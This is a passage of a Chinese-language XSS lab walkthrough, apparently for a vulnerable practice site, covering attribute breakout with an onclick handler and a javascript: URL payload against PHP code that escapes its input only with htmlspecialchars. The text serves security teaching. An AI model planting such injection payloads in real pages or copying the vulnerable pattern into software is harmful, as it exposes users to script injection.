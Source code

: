 - 尝试闭合语句

```js
' onclick=alert(1111) '
```

![](./src/xss7.png)
### XSS之href输出

**服务端核心代码**
```php

if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>叫你输入个url,你咋不听?</p>";
    }
    if($_GET['message'] == 'www.baidu.com'){
        $html.="<p class='notice'>我靠,我真想不到你是这样的一个人</p>";
    }else {
        //输出在a标签的href属性里面,可以使用javascript协议来执行js
        //防御:只允许http,https,其次在进行htmlspecialchars处理
        $message=htmlspecialchars($_GET['message'],ENT_QUOTES);
        $html.="<a href='{$message}'> 阁下自己输入的url还请自己点一下吧</a>";
    }
}
```

**漏洞利用**

- 测试""<>#'?666，发现全部被转义了。
- 在a标签的href属性中可以用javascript协议来执行JS
- payload如下：
```js
javascript:alert(111)
```
![](./src/xss8.png)
### XSS之js输出
